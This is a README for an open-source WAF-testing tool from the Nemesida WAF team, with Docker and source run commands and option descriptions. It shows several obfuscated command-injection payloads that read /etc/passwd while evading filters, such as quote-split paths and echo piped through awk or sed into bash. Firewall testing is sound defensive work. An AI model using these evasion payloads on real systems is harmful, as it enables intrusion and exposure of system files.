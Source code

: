 # WAF Bypass Tool

WAF Bypass by Nemesida WAF team ([nemesida-waf.com](https://nemesida-waf.com)) is an open source tool (Python3) to check any WAF for the number of False Positives/False Negative using predefined payloads (if desired, the set of payloads can be changed). Turn off ban mode before use.

A script developed for internal needs, including for testing Nemesis WAF and Nemesida WAF Free, but you can use it to test any WAF.

### When using, do not violate the law. We are not responsible for the use of the program.

![WAF Bypass Script](https://camo.githubusercontent.com/9ccddb9274eefa8bbe31cc1b0df79782ea6a92d5985b8eeab093a2cd83ad834a/68747470733a2f2f686162726173746f726167652e6f72672f776562742f73642f756a2f39312f7364756a39317333752d5f356a653970666b6e64306577696c6a732e706e67)

There are attacks for which it is impossible to create a signature, while not increasing the number of false positives. Therefore, it is absolutely normal that Nemesida WAF Free bypass the attack, and the commercial version of Nemesida WAF Free blocks. For example, we can execute the <code>cat /etc/passwd</code> command in the following ways:
<pre>
%2f???%2f??t%20%2f???%2fp??s??
cat+/e't'c/pa'ss'wd
e'c'ho 'swd test pentest' | awk '{print "cat /etc/pas"$1}' | bash
ec'h'o 'cat /etc/examplewd' | sed 's/example/pass/g' | bash
</pre>

## How to run

### Run from Docker
The latest waf-bypass always available via the [Docker Hub](https://hub.docker.com/r/nemesida/waf-bypass). It can be easily pulled via the following command:

<pre>
# docker pull nemesida/waf-bypass
</pre>

Run with the command:

<pre>
# docker run nemesida/waf-bypass --host='example.com'
or
# docker run nemesida/waf-bypass --host='example.com' --proxy='http://proxy.example.com:3128'
</pre>

### Run source code from GitHub
<pre>
# git clone https://github.com/nemesida-waf/waf_bypass.git /opt/waf-bypass/
# python3 -m pip install -r /opt/waf-bypass/requirements.txt

# python3 /opt/waf-bypass/main.py --host='example.com'
or
# python3 /opt/waf-bypass/main.py --host='example.com' --proxy='http://proxy.example.com:3128'
</pre>

### Options
The --proxy option specifies where to connect to instead of the host.
 
The --block option specifies an HTTP status code expected when the WAF blocks.  Default if none specified is 403.  May be repeated.

The --header option specifies an HTTP header to send with all requests (e.g. for authentication).  May be repeated.
